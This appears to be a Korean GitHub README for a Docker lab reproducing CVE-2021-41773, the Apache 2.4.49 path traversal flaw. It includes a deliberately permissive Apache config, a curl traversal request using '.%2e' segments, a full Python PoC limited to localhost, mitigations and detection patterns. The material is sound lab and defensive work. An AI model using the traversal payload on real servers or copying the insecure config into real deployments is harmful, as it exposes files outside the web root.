







# CVE-2021-41773 - Path traversal and file disclosure vulnerability in Apache HTTP Server 2.4.49

## 1. 취약점 요약
CVE-2021-41773은 Apache HTTP Server 2.4.49에서 URL 정규화 처리 미흡으로 발생하는 Path Traversal 취약점이다.
공격자는 경로 탐색 공격을 사용해 URL을 Alias와 유사한 명령으로 구성된 디렉터리 외부의 파일에 매핑할 수 있다.

### 기본 정보
| 항목 | 내용 |
| CVE | CVE-2021-41773 |
| 대상 소프트웨어 | Apache HTTP Server |
| 취약 버전 | 2.4.49 |
| 취약점 유형 | Path Traversal |
| 공격 위치 | Remote |

---

## 2. 환경 구성

### 2.1 테스트 환경
| 항목 | 환경 |
| Host OS | Ubuntu Linux |
| Host Port | 8080 |
| Container Port | 80 |
| PoC | Python 3 표준 라이브러리 |

### 2.2 디렉터리 구조
```text
CVE-2021-41773
|-- .gitignore
|-- Dockerfile
|-- docker-comose.yml
|-- README.md
|-- config/
|     |-- http.conf
|-- html/
|     |-- index.html
|-- poc/
|     |-- poc.py
|-- screenshots/
|     |-- Apache_version_check.png
|     |-- browser.png
|     |-- container_success_check.png
|     |-- Docker_Docker compose_version.png
|     |-- documentroot_out_test_file.png
|     |-- ok_http_success.png
|     |-- path_traversal_success.png
|     |-- python_poc_success.png
```

### 2.3 Docker 및 Docker Compose 확인
```bash
docker --version
docker compose version
```

실행 환경에서 Docker와 Docker Compose가 정상 설치되어 있는지 확인



---

## 3. 취약 환경 실행
다음 명령어를 프로젝트 디렉터리에서 실행

```bash
docker compose up -d --build
```

정상 실행될 경우 컨테이너 상태가 'Up'으로 표시되며 호스트의 8080 포트가 컨테이너의 80 포트로 연결되는 것을 알 수 있음


---

## 4. 취약 버전 확인
다음 명령어를 통해 컨테이너 내부 Apache HTTP Server 버전을 확인

```bash
docker exec cve-2021-41773-lab \
 /usr/local/apache2/bin/httpd -v
```

검증 결과:



이를 통해 CVE-2021-41773의 영향 대상인 Apache HTTP Server 2.4.49가 실행 중임을 확인 가능

---

## 5. 정상 서비스 동작 확인
먼저 취약점 요청을 수행하기 전에 정상 HTTP 서비스가 동작하는지 확인

```bash
curl -i http://localhost:8080/lab/
```

정상 응답:



브라우저에서도 다음 주소에 접근 가능

```text
http://localhost:8080
```



---

## 6. 취약 조건

1. Apache HTTP Server 2.4.49 사용
2. URL 경로 정규화 과정에서 인코딩된 점 표현 처리 문제
3. 웹 루트 외부 경로에 대한 접근 허용 설정
4. 공격자가 조작된 URL 경로를 서버에 전달 가능

본 환경에서는 취약점 영향을 명확하게 재현하기 위해 다음 설정을 의도적으로 사용

```apache
<Directory />
    Require all granted
</Directory>
```

이 설정은 웹 루트 외부 경로 접근을 허용
또한 다음 Alias를 사용하여 재현 경로를 구성

```apache
Alias /lab/ "/usr/local/apache2/htdocs/"
```

---

## 7. 재현용 테스트 파일

실제 시스템의 민감 파일 대신, Docker 이미지 빌드 과정에서 고정된 테스트 파일을 생성

파일 경로:

```text
/tmp/cve-2021-41773-secret.txt
```

파일 내용:

```text
CVE-2021-41773-LAB-SECRET
This file is outside the DocumentRoot.
Path traversal reproduction successful.
```

해당 파일은 다음 DocumentRoot 외부에 위치

```text
/usr/local/apache2/htdocs
```

컨테이너 내부에서 테스트 파일 존재 여부를 확인한다.

```bash
docker exec cve-2021-41773-lab \
  cat /tmp/cve-2021-41773-secret.txt
```



---

## 8. Path Traversal 수동 재현

다음 명령을 실행

```bash
curl --path-as-is -i \
  "http://localhost:8080/lab/.%2e/.%2e/.%2e/.%2e/tmp/cve-2021-41773-secret.txt"
```

`--path-as-is` 옵션은 curl이 요청 경로를 사전에 정규화하지 않고 입력한 경로를 그대로 전송하도록 진행

PoC 경로에 포함된 다음 표현이 핵심

```text
.%2e
```

`%2e`는 URL 인코딩된 점(`.`)을 의미하며, Apache HTTP Server 2.4.49의 취약한 경로 정규화 처리로 인해 조작된 경로가 상위 디렉터리 이동에 사용될 수 있음

### 실행 결과



정상적인 웹 루트는 다음과 같음.

```text
/usr/local/apache2/htdocs
```

그러나 HTTP 요청을 통해 웹 루트 외부의 다음 파일이 노출됨.

```text
/tmp/cve-2021-41773-secret.txt
```

따라서 Path Traversal 취약점이 성공적으로 재현되었음을 확인 가능

---

## 9. Python PoC 코드

PoC는 Python 3 표준 라이브러리만 사용하므로 별도의 `pip install` 과정이 필요하지 않음

실행:

```bash
python3 poc/poc.py
```

PoC의 핵심 검증 기준은 다음과 같음

1. HTTP 상태 코드가 `200`인지 확인
2. 응답 본문에서 고정 marker 확인

Marker:

```text
CVE-2021-41773-LAB-SECRET
```

### 실행 결과



PoC는 실습 환경 외부의 시스템을 대상으로 오용되는 것을 방지하기 위해 다음 주소만 허용

```text
127.0.0.1
localhost
::1
```

외부 주소를 입력하면 실행이 차단

예시:

```bash
python3 poc/poc.py http://example.com
```

결과:

```text
[!] Invalid target: This PoC is restricted to the local Docker lab.
```

---

## 10. PoC 코드 전체

```python
#!/usr/bin/env python3

import argparse
import http.client
from urllib.parse import urlsplit

DEFAULT_TARGET = "http://127.0.0.1:8080"
POC_PATH = (
    "/lab/.%2e/.%2e/.%2e/.%2e/"
    "tmp/cve-2021-41773-secret.txt"
)
MARKER = "CVE-2021-41773-LAB-SECRET"


def normalize_target(target):
    if "://" not in target:
        target = "http://" + target

    parsed = urlsplit(target)

    if parsed.scheme not in ("http", "https"):
        raise ValueError("Only http and https schemes are supported.")

    if not parsed.hostname:
        raise ValueError("Invalid target URL.")

    if parsed.hostname not in ("127.0.0.1", "localhost", "::1"):
        raise ValueError(
            "This PoC is restricted to the local Docker lab."
        )

    return parsed


def run_poc(target):
    parsed = normalize_target(target)

    host = parsed.hostname
    port = parsed.port or (443 if parsed.scheme == "https" else 80)

    connection_class = (
        http.client.HTTPSConnection
        if parsed.scheme == "https"
        else http.client.HTTPConnection
    )

    print("=" * 60)
    print("CVE-2021-41773 Path Traversal PoC")
    print("=" * 60)
    print(f"[*] Target : {parsed.scheme}://{host}:{port}")
    print(f"[*] Path   : {POC_PATH}")
    print("[*] Sending raw traversal path...")

    conn = connection_class(host, port, timeout=10)

    try:
        conn.request(
            "GET",
            POC_PATH,
            headers={
                "Host": parsed.netloc,
                "User-Agent": "CVE-2021-41773-Lab-PoC/1.0",
                "Connection": "close",
            },
        )

        response = conn.getresponse()
        body_bytes = response.read()
        body = body_bytes.decode("utf-8", errors="replace")

        print(f"[*] HTTP Status : {response.status} {response.reason}")
        print(f"[*] Server      : {response.getheader('Server', 'Unknown')}")
        print("-" * 60)
        print(body)
        print("-" * 60)

        if response.status == 200 and MARKER in body:
            print("[+] Vulnerability reproduced successfully!")
            print(f"[+] Marker found: {MARKER}")
            return 0

        print("[-] Vulnerability was not reproduced.")
        print("[-] Expected marker was not found in the response.")
        return 1

    except Exception as error:
        print(f"[!] Request failed: {error}")
        return 2

    finally:
        conn.close()


def main():
    parser = argparse.ArgumentParser(
        description="CVE-2021-41773 local lab verification PoC"
    )
    parser.add_argument(
        "target",
        nargs="?",
        default=DEFAULT_TARGET,
        help=f"Target URL (default: {DEFAULT_TARGET})",
    )

    args = parser.parse_args()

    try:
        return run_poc(args.target)
    except ValueError as error:
        print(f"[!] Invalid target: {error}")
        return 2


if __name__ == "__main__":
    raise SystemExit(main())
```

---

## 11. 실행 결과 분석

- Apache HTTP Server 2.4.49 정상 실행
- 정상 `/lab/` 요청은 HTTP 200 응답
- DocumentRoot 외부에 고정 테스트 파일 존재
- `.%2e`를 포함한 조작된 경로 요청 전송
- 외부 테스트 파일 내용이 HTTP 응답으로 노출
- Python PoC가 HTTP 상태와 marker를 자동 검증

이를 통해 Apache HTTP Server 2.4.49의 취약한 경로 정규화 처리와 접근 허용 조건이 결합될 경우 Path Traversal을 통해 DocumentRoot 외부 파일이 노출될 수 있음을 확인할 수 있었음..

---

## 12. 대응 방안

### 12.1 취약 버전 사용 중단

Apache HTTP Server 2.4.49를 사용하지 않아야 함.
공식 보안 권고에 따라 취약점이 수정된 버전으로 업그레이드해야 하며, 운영 환경에서는 최신 보안 업데이트가 적용된 지원 버전을 사용하는 것이 좋음..

### 12.2 외부 디렉터리 접근 차단

다음과 같이 기본적으로 파일 시스템 루트 접근을 차단해야 함.

```apache
<Directory />
    Require all denied
</Directory>
```

필요한 웹 디렉터리에 대해서만 명시적으로 접근을 허용해야 함.

```apache
<Directory "/usr/local/apache2/htdocs">
    Require all granted
</Directory>
```

### 12.3 최소 권한 원칙 적용

Apache 프로세스 계정이 민감한 시스템 파일을 읽을 수 없도록 파일 권한을 최소화해야 함.

### 12.4 비정상 URL 탐지

다음과 같은 URL 인코딩 및 traversal 패턴을 모니터링해야 함.

```text
.%2e
../
%2e%2e
```

단, 탐지 규칙만으로 근본적인 취약점 패치를 대체해서는 안 됨.

---

